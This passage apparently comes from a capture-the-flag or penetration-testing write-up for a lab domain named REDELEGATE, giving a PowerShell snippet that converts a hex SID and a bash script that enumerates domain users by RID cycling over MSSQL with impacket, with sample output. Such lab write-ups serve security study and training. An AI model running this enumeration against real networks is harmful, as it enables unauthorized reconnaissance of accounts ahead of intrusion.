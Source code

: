 #### 3. Convert Hex SID to Readable String (Powershell)

```console
# Without `0x`
$hexSid = "<HEX_SID>"
$sidBytes = [byte[]]::new($hexSid.Length / 2)
for ($i = 0; $i -lt $hexSid.Length; $i += 2) {
    $sidBytes[$i / 2] = [Convert]::ToByte($hexSid.Substring($i, 2), 16)
}
$sid = New-Object System.Security.Principal.SecurityIdentifier($sidBytes, 0)
$sid.Value
```

```console {class="sample-code"}
PS C:\Users\john> $hexSid = "010500000000000515000000a185deefb22433798d8e847a00020000"
PS C:\Users\john> $sidBytes = [byte[]]::new($hexSid.Length / 2)
PS C:\Users\john> for ($i = 0; $i -lt $hexSid.Length; $i += 2) {
>>     $sidBytes[$i / 2] = [Convert]::ToByte($hexSid.Substring($i, 2), 16)
>> }
PS C:\Users\john> $sid = New-Object System.Security.Principal.SecurityIdentifier($sidBytes, 0)
PS C:\Users\john> $sid.value
S-1-5-21-4024337825-2033394866-2055507597-512
```

#### 4. Domain Users Enum

```console
#!/bin/bash

USERNAME="<USER>"
PASSWORD="<PASSWORD>"
SERVER="<TARGET>"
SID_BASE="<SID_BASE>"

query_sid() {
    local sid="$1"
    local full_sid="${SID_BASE}-${sid}"
    local sql="SELECT SUSER_SNAME(SID_BINARY(N'$full_sid'))"

    echo "$sql" | impacket-mssqlclient "$USERNAME:$PASSWORD@$SERVER" -file /dev/stdin 2>/dev/null | grep -a REDELEGATE
}

for sid in {1100..1200}; do
    query_sid "$sid"
done
```

```console {class="sample-code"}
$ ./domain_users_enum.sh   
REDELEGATE\FS01$   
REDELEGATE\Christine.Flanders   
REDELEGATE\Marie.Curie   
---[SNIP]---
```
